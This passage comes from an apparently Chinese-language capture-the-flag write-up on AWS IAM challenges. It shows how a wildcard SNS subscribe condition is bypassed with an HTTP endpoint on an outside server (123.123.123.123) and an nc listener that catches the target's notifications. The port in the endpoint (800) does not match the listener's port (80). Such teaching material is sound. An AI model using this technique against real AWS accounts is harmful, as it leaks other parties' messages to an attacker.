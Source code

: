![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202307091310071.png)

这个题目告诉我们，对于 SQS 服务，应该避免允许公开接收对列的消息，避免在传输消息时造成敏感信息的泄露。

## 3. Enable Push Notifications

第 3 道题叫 Enable Push Notifications，给出的 Policy 如下：

```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```

这个 Policy 允许 Endpoint 结尾是 @tbic.wiz.io 的人拥有这个 SNS 服务的 Subscribe 权限。

SNS（Simple Notification Service）可以帮助开发人员向移动设备、电子邮件、消息队列等多种终端发送通知消息，让你能够轻松地向用户传递重要信息和实时更新。简单来说，SNS 就像是一个消息广播系统，让你能够快速、可靠地将消息发送给订阅者，确保他们及时收到你发送的通知。

AWS CLI 中的 SNS Subscribe 功能里需要指定协议、通知端点以及 ARN，在 Policy 中我们已经知道 ARN 了，接下来就需要去构造一个通知端点，而且这个通知端点需要以 @tbic.wiz.io 结尾。

```bash
> aws sns subscribe help

subscribe
--topic-arn <value>
--protocol <value>
[--notification-endpoint <value>]
```

查阅官方文档可以知道，通知协议支持 HTTP、HTTPS、EMAIL、SMS、SQS 等等，这里我们可以构造一个 HTTP 的通知端点，例如 [http://123.123.123.123:800/@tbic.wiz.io](http://123.123.123.123:800/@tbic.wiz.io)，这样就符合这个 Policy 里的条件了，然后当我们执行订阅命令时，就会收到来自对方的消息。

那么先在自己的服务器上，使用 NC 监听一个端口。

```bash
nc -lvk 80
```
